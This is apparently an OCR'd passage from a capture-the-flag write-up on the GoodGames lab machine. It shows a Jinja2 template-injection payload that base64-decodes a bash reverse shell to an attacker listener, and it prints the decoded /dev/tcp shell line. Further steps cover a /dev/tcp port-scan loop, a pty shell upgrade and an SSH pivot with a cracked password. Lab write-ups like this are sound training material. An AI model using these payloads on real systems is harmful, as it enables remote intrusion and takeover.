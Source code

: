 ```{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC83Nzc3IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}```
decodes to:

```bash
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```

**This SSTI payload executes a reverse shell by base64-decoding it on the server and piping it to bash, connecting back to your listener at `10.10.14.14:7777`.**

From I was able to get a shell.

A directory list of user augustus home directory shows that instead of their name, the UID 1000
is displayed as the owner for the available files and folders. This hints that the user's home
directory is mounted inside the docker container from the main system. Checking mount we see
that the user directory from the host is indeed mounted with read/write flag enabled.

`netstat -tulpn` did not give me much but `netstat -antup` did.

And showed:
```
netstat -antup
netstat -antup
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:8085            0.0.0.0:*               LISTEN      1/python3           
tcp        0      0 127.0.0.11:34187        0.0.0.0:*               LISTEN      -                   
tcp        1      0 172.19.0.2:8085         172.19.0.1:48990        CLOSE_WAIT  1/python3           
tcp        0     15 172.19.0.2:54540        10.10.14.14:7777        ESTABLISHED 896/bash            
udp        0      0 127.0.0.11:42864        0.0.0.0:*           
```
One other foreign address shows one other host, which should be for Docker which I saw earlier.

A quick port scan shows it’s listening on 22 and 80:https
`for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null`

```
<19.0.1/$port && echo "$port open"; done 2>/dev/null
22 open
80 open

```
A quick `curl` confirms that it returns back to the GoodgGames.htb website.

When I tired to ssh to the new ip/host I found it did not let me but with a simple `python3 -c 'import pty; pty.spawn("/bin/bash")'
` I was able to fix it.

Now, `ssh augustus@172.19.0.19` and using the cracked password I got, I was able to succesfully log in.
